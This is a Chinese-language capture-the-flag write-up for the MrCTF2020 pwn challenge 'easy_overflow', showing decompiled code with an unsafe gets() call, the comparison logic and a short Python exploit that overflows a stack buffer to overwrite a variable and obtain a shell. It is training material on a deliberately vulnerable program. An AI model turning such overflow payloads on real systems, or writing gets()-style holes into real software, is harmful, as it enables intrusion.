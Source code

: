 
## easy_overflow
- 题目描述：
    
    > 有种你连我
- 题目附件：[easy_overflow](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MrCTF2020/pwn/easy_overflow/easy_overflow)
- 考察点：栈溢出、变量覆盖
- 难度：入门
- 初始分值：500
- 最终分值：50
- 完成人数：58

### 程序分析

主要代码如下，`gets`函数存在漏洞，可导致栈溢出：

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char v4; // [rsp+0h] [rbp-70h]
  char v5; // [rsp+30h] [rbp-40h]
  // ...
  gets(&v4, argv);
  if ( !check(&v5) )
    exit(0);
  system("/bin/sh");
  return 0;
}
```

程序逻辑比较简单：对`v5`进行检查，通过检查就给shell。

```nasm
 ► 0x555555554874 <main+113>    call   check <0x55555555479a>
        rdi: 0x7fffffffda80 ◂— 'ju3t_@_f@k3_f1@g'
```

> `v5="ju3t_@_f@k3_f1@g"`

`check`函数如下：

```c
signed __int64 __fastcall check(__int64 a1){
  int i; // [rsp+18h] [rbp-8h]
  int v3; // [rsp+1Ch] [rbp-4h]

  v3 = strlen(fake_flag);
  for ( i = 0; ; ++i )
  {
    if ( i == v3 )
      return 1LL;
    if ( *(i + a1) != fake_flag[i] )
      break;
  }
  return 0LL;
}
```

> 其中`fake_flag`位于`.data`段， `fake_flag = "n0t_r3@11y_f1@g"`

### 解题思路

`gets(&v4)`存在溢出，将`v4`后的`v5`覆盖为`n0t_r3@11y_f1@g`即可通过`check`

### exp
```python
offset = 48
payload = 'A'*offset
payload += 'n0t_r3@11y_f1@g'
sl(payload)
```

